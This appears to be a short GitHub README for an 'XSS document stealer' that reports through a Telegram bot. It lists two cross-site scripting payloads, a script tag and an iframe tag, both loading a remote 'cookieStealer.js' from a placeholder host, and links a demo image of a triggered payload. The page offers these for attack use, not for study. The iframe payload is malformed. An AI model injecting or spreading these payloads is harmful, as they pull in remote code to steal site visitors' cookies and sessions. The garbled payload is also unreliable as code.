 # XSS DOCUMENT STEALER
Using telegram bot

# Payload

``<script src="https://host/cookieStealer.js"></script>``

``<iframe src iframe src="https://host/cookieStealer.js"></iframe src>``

## If Payload Triggered

![](https://raw.githubusercontent.com/sutrisnoadit-17/xss-document-stealer/main/demo.png)
